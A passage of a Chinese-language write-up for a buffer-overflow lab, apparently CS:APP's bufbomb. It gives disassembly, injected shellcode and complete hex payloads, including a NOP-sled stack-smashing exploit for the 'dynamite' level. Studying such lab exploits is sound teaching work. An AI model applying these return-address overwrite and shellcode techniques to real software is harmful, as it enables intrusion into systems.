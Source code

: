 ```c
 8048ce1:   08 
 8048ce2:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048ce9:   e8 d2 fc ff ff          call   80489c0 <__printf_chk@plt>
 8048cee:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048cf5:   e8 06 fc ff ff          call   8048900 <exit@plt>
```
这一关需要保证0x804d100处为cookie,所以需要得到输入字符串的地址为 0x55683bf8,然后使用shellcode
```shellcode
00000000 <.text>:
   0:   a1 08 d1 04 08          mov    0x804d108,%eax
   5:   a3 00 d1 04 08          mov    %eax,0x804d100
   a:   68 9d 8c 04 08          push   $0x8048c9d
   f:   c3                      ret
```
生成汇编命令
```c
gcc -m32 -c test.s
objdump -d test.o
```
payload
```c
a1 08 d1 04 08 a3 00 d1 04 08 68 9d 8c 04 08 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f8 3b 68 55
```

### level4 - dynamite ###
cookie = b6 e9 a9 43,这个任务的要求是连续5次保证ebp - 0xc == cookie,有点麻烦
思路是通过覆盖ip来跳到前面的nop,然后执行shellcode控制ebp
payload(参考:https://blog.csdn.net/u012336567/article/details/51832328)
```c
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
90 90 90 90 90 90 90 90 90 a1 08 d1 04 08 8d 6c 24 28 68 3a
8e 04 08 c3 b8 32 68 55
```
